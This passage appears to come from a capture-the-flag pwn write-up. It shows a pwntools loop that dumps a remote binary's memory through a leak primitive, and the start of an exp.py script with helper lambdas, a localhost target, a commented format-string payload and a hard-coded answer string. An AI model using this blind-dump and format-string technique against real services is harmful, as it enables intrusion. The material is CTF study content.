 ```plain
try:
    while True:

        data = leak(begin)
        begin = begin+len(data)
        bin += data
        if len(data)==0:
            begin+=1
            bin += '\x00'

except:
    print("finish")
finally:
    print '[+]',len(bin)
    with open('dump_bin','wb') as f:
        f.write(bin)

p.interactive()
```

## exp.py

```plain
import os
import sys
import time
from pwn import *
from ctypes import *
import binascii

context.os = 'linux'
context.log_level = "debug"

#context(os = 'linux',log_level = "debug",arch = 'amd64')
s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

#p=process('./pwn')
p=remote('127.0.0.1',5001)
def duan():
    gdb.attach(p)
    pause()
#duan()
#sl('%7$sdump'+p64(0x40000))
sla('Please enter your answer\n','F4atherw1t\0')
```